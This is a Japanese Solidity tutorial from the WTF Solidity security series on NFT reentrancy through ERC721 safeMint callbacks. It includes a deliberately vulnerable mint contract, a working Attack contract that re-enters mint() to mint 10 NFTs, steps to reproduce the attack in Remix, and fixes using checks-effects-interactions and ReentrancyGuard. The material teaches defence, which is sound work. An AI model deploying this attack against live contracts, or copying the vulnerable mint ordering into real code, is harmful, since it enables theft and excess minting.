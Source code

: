 ```yaml
---
title: S16. NFTリエントランシー攻撃
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity 合約セキュリティ: S16. NFTリエントランシー攻撃

最近、Solidityを再学習し、詳細を固めるために「WTF Solidity 合約セキュリティ」を書いています。初心者向けのチュートリアル（プログラミング上級者は他のチュートリアルを参照してください）で、毎週1-3レッスンを更新します。

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ: [Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはgithubで公開: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

このレッスンでは、NFTコントラクトのリエントランシー攻撃脆弱性について紹介し、脆弱性のあるNFTコントラクトを攻撃して10個のNFTを鋳造します。

## NFTリエントランシーのリスク

[S01 リエントランシー攻撃](https://github.com/AmazingAng/WTF-Solidity/blob/main/S01_ReentrancyAttack/readme.md)で説明したように、リエントランシー攻撃はスマートコントラクトで最も一般的な攻撃の一つです。攻撃者はコントラクトの脆弱性（例：`fallback`関数）を通じてコントラクトを循環呼び出しし、コントラクト内の資産を転送したり、大量のトークンを鋳造したりします。NFTの転送時にはコントラクトの`fallback`や`receive`関数がトリガーされないのに、なぜリエントランシーのリスクがあるのでしょうか？

これは、NFT標準（[ERC721](https://github.com/AmazingAng/WTF-Solidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTF-Solidity/blob/main/40_ERC1155/readme.md)）がユーザーが誤って資産をブラックホールに転送することを防ぐため、安全転送を追加したためです：転送先アドレスがコントラクトの場合、そのアドレスの対応するチェック関数を呼び出し、NFT資産を受け取る準備ができていることを確認します。例えば、`ERC721`の`safeTransferFrom()`関数は対象アドレスの`onERC721Received()`関数を呼び出し、ハッカーはその中に悪意のあるコードを埋め込んで攻撃することができます。

`ERC721`と`ERC1155`でリエントランシーリスクの可能性がある関数をまとめました：

![](./img/S16-1.png)

## 脆弱性の例

以下で、リエントランシー脆弱性のあるNFTコントラクトの例を学習します。これは`ERC721`コントラクトで、各アドレスが無料で1つのNFTを鋳造できますが、リエントランシー攻撃により一度に複数を鋳造できます。

### 脆弱性コントラクト

`NFTReentrancy`コントラクトは`ERC721`コントラクトを継承し、主に2つの状態変数があります。`totalSupply`はNFTの総供給量を記録し、`mintedAddress`は既に鋳造したアドレスを記録して、ユーザーが複数回鋳造することを防ぎます。主に2つの関数があります：
- コンストラクタ：`ERC721` NFTの名前とシンボルを初期化します。
- `mint()`：鋳造関数、各ユーザーが無料で1つのNFTを鋳造できます。**注意：この関数にはリエントランシー脆弱性があります！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // コンストラクタ、NFTコレクションの名前、シンボルを初期化
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 鋳造関数、各ユーザーは1つのNFTのみ鋳造可能
    // リエントランシー脆弱性あり
    function mint() payable external {
        // mint済みかどうかをチェック
        require(mintedAddress[msg.sender] == false);
        // total supplyを増加
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // mint済みアドレスを記録
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻撃コントラクト

`NFTReentrancy`コントラクトのリエントランシー攻撃ポイントは、`mint()`関数が`ERC721`コントラクトの`_safeMint()`を呼び出し、それが転送先アドレスの`_checkOnERC721Received()`関数を呼び出すことです。転送先アドレスの`_checkOnERC721Received()`に悪意のあるコードが含まれている場合、攻撃が可能です。

`Attack`コントラクトは`IERC721Receiver`コントラクトを継承し、脆弱性のあるNFTコントラクトアドレスを記録する1つの状態変数`nft`があります。3つの関数があります：
- コンストラクタ：脆弱性のあるNFTコントラクトアドレスを初期化します。
- `attack()`：攻撃関数、NFTコントラクトの`mint()`関数を呼び出して攻撃を開始します。
- `onERC721Received()`：悪意のあるコードが埋め込まれたERC721コールバック関数で、`mint()`関数を繰り返し呼び出し、10個のNFTを鋳造します。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 脆弱性のあるnftコントラクトアドレス

    // NFTコントラクトアドレスを初期化
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }

    // 攻撃関数、攻撃を開始
    function attack() external {
        nft.mint();
    }

    // ERC721のコールバック関数、mint関数を繰り返し呼び出し、10個を鋳造
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remixでの再現

1. `NFTReentrancy`コントラクトをデプロイします。
2. `Attack`コントラクトをデプロイし、パラメータに`NFTReentrancy`コントラクトアドレスを入力します。
3. `Attack`コントラクトの`attack()`関数を呼び出して攻撃を開始します。
4. `NFTReentrancy`コントラクトの`balanceOf()`関数を呼び出して`Attack`コントラクトの保有量を照会すると、`10`個のNFTを保有していることが確認でき、攻撃が成功します。

![](./img/S16-2.png)

## 予防方法

リエントランシー攻撃脆弱性を予防する主な方法は2つあります：チェック-エフェクト-インタラクションパターン（checks-effect-interaction）とリエントランシーロック。

1. チェック-エフェクト-インタラクションパターン：関数を書く際に、まず状態変数が要件を満たしているかチェックし、続いて状態変数（例：残高）を更新し、最後に他のコントラクトとやり取りすることを強調します。このパターンを使って脆弱性のある`mint()`関数を修正できます：

  ```solidity
      function mint() payable external {
          // mint済みかどうかをチェック
          require(mintedAddress[msg.sender] == false);
          // total supplyを増加
          totalSupply++;
          // mint済みアドレスを記録
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. リエントランシーロック：リエントランシー関数を防ぐ修飾子（modifier）です。OpenZeppelinが提供する[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)を直接使用することを推奨します。

## まとめ

このレッスンでは、NFTのリエントランシー攻撃脆弱性について紹介し、脆弱性のあるNFTコントラクトを攻撃して10個のNFTを鋳造しました。現在、リエントランシー攻撃を予防する主な方法は2つあります：チェック-エフェクト-インタラクションパターン（checks-effect-interaction）とリエントランシーロックです。